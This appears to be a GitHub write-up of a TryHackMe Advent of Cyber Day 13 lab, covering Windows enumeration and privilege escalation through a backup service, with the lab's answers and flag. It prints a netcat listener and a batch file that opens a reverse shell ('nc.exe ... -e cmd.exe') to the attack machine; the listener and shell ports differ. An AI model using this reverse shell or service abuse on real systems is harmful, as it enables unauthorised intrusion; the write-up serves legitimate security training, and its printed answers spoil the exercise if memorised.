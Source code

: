 
![image](https://github.com/user-attachments/assets/6371db5c-9eec-4f49-bdff-02ec11b425c9)

<br>




<h1>[ Day 13 ] Networking - They Lost The PLan!</h1>

<p>
  
- Launched <code>PowerShell</code><br><br>

- Executed <code>net users</code><br><br>

![image](https://github.com/user-attachments/assets/57ad735d-d55b-40a7-a986-ee10b4b36140)


<br>

1.1. Complete the username: p.....<br>
<code>pepper</code><br>

<br>

- Executed command <code>systeminfo</code><br>

<br>

![image](https://github.com/user-attachments/assets/c1b96525-8167-451c-aee0-f6ebc880991e)

1.2. What is the OS version?<br>
<code>10.0.17763 N/A Build 17763</code>

<br>

- Listed the services running on the system, executing <code>wmic service list</code>.<br>

<br>

![image](https://github.com/user-attachments/assets/886258a6-e828-4fff-98ca-b299b3856daa)

<br>

![image](https://github.com/user-attachments/assets/50f95368-8c15-49d7-9549-b6eed707ed51)


<br>

- Executed <code>wmic service list >> services.txt</code><br><br>
- Executed <code>Select-String -Path services.txt -Pattern backup</code>.<br><br>

<br>

![image](https://github.com/user-attachments/assets/1be6672e-74d8-4bfe-a2d0-b41a6bcbcc3c)

1.3. What backup service did you find running on the system?<br>
<code>IperiusSvc</code><br>

<br>

1.4. What is the path of the executable for the backup service you have identified?<br>
<code>C:\Program Files (x86)\Iperius Backup\IperiusService.exe</code><br>


![image](https://github.com/user-attachments/assets/5b6d0c01-0c5b-4439-8414-2e4dbf2378ef)

<br>

1.5. Run the whoami command on the connection you have received on your attacking machine. What user do you have?<br>
<code>the-grinch-hack\thegrinch</code><br>

<br>

1.6. What is the content of the flag.txt file?<br>
<code>THM-736635221</code><br>

<br>


- Navigated to <code>THM Attackbox</code> virtual machine.<br><br>
- Looked at the right upper corner and discovered my <code>AttackIP</code>:<code>10.10.72.55</code>.<br><br>
- Launched <code>Command Prompt</code>.<br><br>
- Practice also executing the command <code>ifconfig</code>, and confirmed the IP there in the <code>ens5</code> section.<br><br>
- Set up a listener using <code>nc -nlvp 4444</code>.<br><br>
-----------------------------------<br>
- Navigated to <code>Aoc_WinPrivEsc</code> virtual machine.<br><br>
- Note: the <code>TargetIP</code> I am using is <code>10.10.203.205</code>.<br><br>
- Launched <code>notepad</code><br><br>
- Added content to a <code>notepad</code> file.<br><br>
- Saved it as <code>evil.bat</code> in the <code>C:\Users\McSkidy\Desktop</code> path.<br><br>
- Navigated to <code>Desktop</code>.<br><br>
- Double-clicked <code>evil.bat</code>.<br><br>
-----------------------------------<br>
- Navigated to <code>THM Attackbox</code> virtual machine.<br><br>
-----------------------------------<br>
- Navigated to <code>Aoc_WinPrivEsc</code> virtual machine.<br><br>
- Launched <code>Iperius Backup</code> application.<br><br>
- Clicked <code>Create a New Backup Job</code>.<br><br>
- Clicked <code>Add folder</code>.<br><br>
- Clicked <code>Select</code>.<br><br>
- Chose <code>C:\Users</code>.<br><br>
- Clicked <code>OK</code>.<br><br>
- Clicked <code>Next</code>.<br><br>
- Navigated to the <code>Other processes</code> tab.<br><br>
- Toggled <code>Run a program or open external file</code>.<br><br>
- Clicked <code>Select</code>.<br><br>
- Chose <code>C:\Users\McSkidy\Desktop\evil.bat</code>.<br><br>
- Clicked <code>Next</code>, and <code>OK</code>.<br><br>
- Typed <code>Plan</code> for the <code>Job name</code>, and clicked <code>OK</code>.<br><br>
-


<br>

![image](https://github.com/user-attachments/assets/db433eca-4470-44d7-bb3d-7a6a408ebb35)


<br>

![image](https://github.com/user-attachments/assets/dba0f626-8ecd-4921-b665-a014f1f6574e)


<br>

![image](https://github.com/user-attachments/assets/1600e8f8-8083-4b47-889b-3b77d575eb78)



<br>

<code>@echo off</code><br>
<code>C:\Users\McSkidy\Downloads\nc.exe -nv 10.10.72.55 1337 -e cmd.exe</code><br>

<br>

![image](https://github.com/user-attachments/assets/aa991830-993d-487b-9f24-10a349164011)

<br>

![image](https://github.com/user-attachments/assets/06731c3f-f490-4f05-88d6-8bcb86f71ebe)



<br>

![image](https://github.com/user-attachments/assets/5243f622-8bd7-40e9-b1a9-ef009cc47818)

<br>

![image](https://github.com/user-attachments/assets/a95c32ef-eac2-4843-a6a2-6195fd3ea708)

<br>

<br>

![image](https://github.com/user-attachments/assets/b5242ba3-4a26-4f2a-9701-5affc5b8eb9e)

<br>

![image](https://github.com/user-attachments/assets/06a91cea-effa-4629-b79f-f3181193a96f)

<br>

![image](https://github.com/user-attachments/assets/f38cc281-c544-47f8-b3b5-000b1e8f18ba)

<br>


1.7. The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?<br>
<code>jazzercize</code><br>

<br>

![image](https://github.com/user-attachments/assets/72eb6bde-91c7-4c2d-be87-6993646dd6df)
